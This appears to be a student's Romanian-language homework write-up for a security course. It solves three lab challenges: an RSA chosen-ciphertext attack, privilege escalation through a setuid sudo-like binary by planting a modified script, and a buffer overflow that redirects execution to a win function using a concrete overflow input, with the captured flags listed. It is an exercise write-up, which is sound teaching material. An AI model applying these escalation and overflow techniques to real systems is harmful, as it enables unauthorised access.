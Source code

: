 # TEMA 1 ISC -> ANCA-MARIA COLACEL

**Tema contine 3 taskuri. Le voi detalia pe fiecare in parte.**

## TASK1 - CRYPTO-ATTACK
In vederea rezolvarii acestui exercitiu a fost necesara completarea scriptului pus la dispozitie in arhiva.
Am inceput cu hinturile puse la dispozitie in cerinta si decodand din base64 KLT vahlxg vbiaxkmxqm tmmtvd am vazut ca se foloseste RSA chosen chiper attack. Celalalt nu era util :)
Am incercat sa decodez message.txt din b64 si am obtinut un json cu 3 campuri, n, e si flag, astfel am format chiper_dash-ul necesar algoritmului in urma aplicarii formulei. M-am gandit ca formatul in care trebuie trimise informatiile la server este tot json astfel ca formez noul json folosind chiper_dash-ul, l-am codat si l-am trimis la server. Salvez raspunsul de la server, folosesc decode-unicode si apoi fac conversie din string in numar pt ca potrivit algoritmului trebuie sa impart la numarul random. Dupa ce fac impartirea practic obtin flagul dar in format numeric asa ca il convertesc in string si il printez. 
### FLAG: SpeishFlag{DCUuhc0WShG69E0H7kF6V2LIxLu7O2gi}

## TASK2 - LINUX ACL
 1) In primul rand ma conectez la userul janitor cu ssh.
    
    ```ssh -i id_rsa janitor@isc2023.1337.cx```

2) Dau urmatoarea comanda si gasesc fisierul hints.txt la calea /var/.hints.txt.

   ```find /var -type f -exec grep -l 'hints' {} +```
   
   Dau cat pe fisier si obtin:

   ```
   Here's more hints:
   - No ideas? Try to ltrace the setuid binaries!
   - Try to find the hidden config directory ;)
   - How does that custom sudo binary match the allowed command? How about its
    arguments?
   - You can add scripts to the same dir as sudo-permitted ones, but you cannot
    delete/modify them due to sticky bit :P

   ```

  3) Dupa ce ma uit prin fisiere observ ca de interes este fisierul robo-sudo acesta avand userul wallybot

   ```
   janitor@fhunt:/usr/local/bin$ ls -la         
   total 48
   drwxrwxr-t+ 1 root     root     4096 Dec  7 16:01 .
   drwxr-xr-x  1 root     root     4096 Oct  3 02:03 ..
   -rwxr-xr-x  1 janitor  janitor    74 Apr 10  2022 janitor-coffee.sh
   -rwxr-xr-x  1 janitor  janitor   228 Apr 10  2022 janitor-vacuum.sh
   -rwsr-xr-x  1 wallybot zboss   17408 Dec  7 16:01 robot-sudo
   -rwxr-xr-x  1 root     root      163 Apr 10  2022 vacuum-control

   ```

Dau strings pe robot-sudo si gasesc 
```

Please supply a command as argument!
Unable to determine current user! Exiting...
Hey, no shell injection please!
Invalid command given!
/.you.are.never/.gonnafindthis/r0b0t3rs.conf

```
deci am gasit fisierul cu permisiuni si din acesta gasesc regulile: 

```
allow wallybot /opt/.wellhidden/0b3y.b0ss
allow janitor /usr/local/bin/vacuum-control

```

Ca sa pot gasi flagul trebuie sa ma folosesc de /usr/local/bin/vacuum-control. 
Ma uit in /opt/.wellhidden/0b3y.b0ss unde gasesc de interes **ad002825749349601baafd654b5406e2Access denied!
I will contact you when I require your cleaning services, janitor!
Congratulations, here's your flag:cat /etc/opt/something/here.bin/.xyzflag**.
M-am gandit sa folosesc tokenul acesta

```
janitor@fhunt:/usr/local/bin$  /opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
I will contact you when I require your cleaning services, janitor!

```

si am primit asta. 

4) Folosesc /usr/local/bin/vacuum-control in /usr/local/bin/vacuum-control-v1 si fac urmatoarea modifacare ca sa pot gasi flagul

```

`janitor@fhunt:/usr/local/bin$ cat vacuum-control-v1 
#!/bin/bash

if [[ $EUID -lt 7000 ]]; then
    echo "ERROR: Access denied!"
    exit 1
fi

/opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
cat /etc/opt/something/here.bin/.xyzflag

the rest of its implementation omitted / not important

janitor@fhunt:/usr/local/bin$ robot-sudo /usr/local/bin/vacuum-control-v1 /opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
Congratulations, here's your flag:
SpeishFlag{RpBElwNQrhVrrYLolrkLrTOXtOQgZJWL}``

```

Am  modificat in script apoi am rulat ca si robot-sudo si am obtinut flagul.

### FLAG: SpeishFlag{RpBElwNQrhVrrYLolrkLrTOXtOQgZJWL}

## TASK3 - BINNARY-EXPLOIT

Ma folosesc de Ghidra ca sa deschid binarul si sa vizualizez codul in c pentru main.c, loop.c si win.c. Din main se intra in loop dar nu se intra si in win, ceea ce eu vreau sa se intample pentru a gasi flagul, astfel ca ceea ce vreau este sa suprascriu adresa de retur din loop ca sa ii dau adresa lui win. Aflu adresa folosind: 
```
objdump -t casino | grep win

```

Vreau sa fac buffer overflow si uitandu-ma cu objdump constat ca am nevoie de 37 de caractere de garbage la care adaug adresa pe care o convertesc din hexa in decimal plus inca un 0 si apoi lucky number si x ca sa intru pe conditia cu flagul.

```
student@uso:~/Desktop/AN_3/ISC/anca_maria.colacel/binary-exploit$ ./casino
Welcome to the Saint Tropez Virtual Casino!
Please enter your name:
anca
Welcome, anca!
Your balance: $655

Please enter the list of numbers you want to roll (write 'x' to stop): 
123 x
You got: 0 out of 1
Remaining balance: $554
Continue? [Y/n]y

Here's your lucky number: 141805

Please enter the list of numbers you want to roll (write 'x' to stop): 
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 134517302 0 141805 x            
You got: 1 out of 40
Remaining balance: $454
Continue? [Y/n]n
KThxBye!
File opening failed!
Note: there is no flag available locally, try it on the remote server!

```

Acesta este outputul obtinut in urma rularii pe local dupa care ma conectez la server folosind comanda

```
netcat  isc2023.1337.cx 10011

```

si pasii sunt aceeasi ca pe local dar la final se obtine flagul.

### FLAG: SpeishFlag{dTWwdiGKa7iyKqPYJG9rpyxMK06WcjM8}



   
   
    
 
  

